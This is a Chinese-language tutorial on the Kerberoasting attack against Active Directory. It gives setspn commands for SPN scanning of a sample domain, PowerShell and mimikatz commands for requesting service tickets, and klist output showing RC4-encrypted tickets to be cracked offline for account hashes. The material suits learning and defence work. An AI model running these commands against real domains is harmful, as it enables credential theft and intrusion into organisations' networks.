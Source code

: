 利用SPN扫描服务发现，查看可建立连接，连接后查看票据是RC4_HMAC_MD5加密的，则可以Kerberos攻击，破解票据。




## **SPN扫描**
SPN扫描也可以叫扫描Kerberos服务实例名称，在Active  Directory环境中发现服务的最佳方法是通过“SPN扫描”。
SPN扫描通过请求特定SPN类型的服务主体名称来查找服务。与网络端口扫描相比，SPN扫描的主要特点是不需要通过连接网络中的每个IP地址来检查服务端口(不会因为触发内网中的IPS、IDS等设备的规则而产生大量的警告日志)。因为SPN查询是Kerberos票据行为的一部分，所以检测难度很大。
由于SPN扫描是基于LDAP协议向域控制器进行查询的，所以，攻击者只需要获得一个普通的域用户权限，就可以进行SPN扫描。

常见的服务与spn服务实例名称：
```
MSSQLSvc/adsmsSQLAP01.adsecurity.org:1433
Exchange
exchangeMDB/adsmsEXCAS01.adsecurity.org
RDP
TERMSERV/adsmsEXCAS01.adsecurity.org
WSMan / WinRM / PS Remoting
WSMAN/adsmsEXCAS01.adsecurity.org
Hyper-V Host
Microsoft Virtual Console Service/adsmsHV01.adsecurity.org
VMWare VCenter
STS/adsmsVC01.adsecurity.org
```
SPN扫描案例：
0day.org为域控域名
```
setspn -T 0day.org -q */*   #扫描全部服务
setspn -T 0day.org -q */* | findstr "MSSQL"  #扫描指定服务
```

## **票据逆向**
当读不出明文，也读不出哈希时。破解Kerberos票据。
DC在活动目录中查找SPN，并使用与SPN关联的服务帐户加密票证，以便服务能够验证用户是否可以访问。
可以访问此时再建立连接，连接后可以查看票据加密类型。
如果请求的Kerberos服务票证的加密类型是RC4_HMAC_MD5，这意味着服务帐户的NTLM密码哈希用于加密服务票证，这种是可以逆向的。AES，DES加密类型则不可逆向。

建立请求连接：
这里我们可以进行请求一下，再请求后会留下票据，这里可以使用powershell或者mimakatz进行请求，如果再cs中，方便的话还是使用mimakatz进行请求。
```
powershell Add-Type -AssemblyName System.IdentityModel
powershell New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/Srv-DB-0day.0day.org:1433"
或mimakatz请求
mimikatz kerberos::ask /target:MSSQLSvc/Srv-DB-0day.0day.org:1433
```

查看票据：
klist命令看一下，一定要是RC4才能够进行破解成功。
```
客户端：webadmin@ODAY.ORG
服务器：MSSQLSvc/Srv-DB-0day.0day.org：1433@0DAY.0
Kerberos票证加密类型：RSADSI RC4-HMAC（NT）
票证标志0x40a00000->forwardablerenewablepre_au
开始时间：7/24/20239：25：03（本地）
结束时间：7/24/202319:25:03（本地）
续订时间：7/31/20239：25：03（本地）
会话密钥类型：RSADSIRC4-HIAC（NT）
```
黑客将收到的TGS票据离线进行python脚本破解，即可得到目标服务帐号的HASH，这个称之为Kerberoast攻击。
如果我们有一个为域用户帐户注册的任意SPN，那么该用户帐户的明文密码的NTLM哈希值就将用于创建服务票证。